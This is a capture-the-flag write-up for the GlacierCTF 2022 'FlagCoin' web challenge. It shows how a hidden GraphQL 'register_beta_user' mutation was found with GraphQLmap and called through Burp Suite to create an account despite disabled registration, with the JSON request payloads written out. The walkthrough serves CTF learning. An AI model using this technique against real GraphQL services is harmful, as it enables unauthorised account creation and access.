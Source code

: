 # Web

## FlagCoin

*Our new 110% legit cryptocurrency is so cool, it does not even use blockchains. We have a WIP web interface for trading though. Hope nobody can get a beta testing account.*

### Solution

The fist thing we see is a simple login screen:
![](/images/glacierctf2022_flagcoin_login.png)

We can notice that the registration is disabled, so we can only log in existing profiles.
Looking at the source code, we notice nothing special.

Using **Burp Suite**, we can take a look at the performed request:
```json
{"query":"\n      mutation($username: String!, $password: String!) { \n        login(username: $username, password: $password) { \n          username \n        } \n      }\n      ","variables":{"username":"blabla","password":"ciaociao"}}
```

We notice that a **mutation** query is performed.
That's the *key* to the solution.

The idea was to gain the access to the *beta* account.

That's how I did this:
1. Using a tool ([GraphQL Map](https://github.com/swisskyrepo/GraphQLmap)), I discovered that there were 3 possible mutations: **login.query**, **redeem.query** (which comes in hand for stage 2) and **register_beta_user.query** (the one I was looking for)

2. Opening the **register_beta_user.query** file, here is what I obtained:
```json
 {"query": "mutation {\n\tregister_beta_user(username:String, password:String) {\n\t\tusername\n\t\tpassword\n\t\tcoins\n\t}\n}"}
```

3. Now we can inject the request (again using *Burp*) to perform the *register_beta_user* query:
```json
{"query":"\n      mutation($username: String!, $password: String!) { \n        register_beta_user(username: $username, password: $password) { \n          username \n        } \n      }\n      ","variables":{"username":"beta","password":"tester"}}
```

4. Than we can login with the new account:
![](/images/glacierctf2022_flagcoin_solved_login.png)

After logging in, we are welcomed with the flag:
`glacierctf{bUy_Th3_d1P_br0h}`


## RCE as a Service
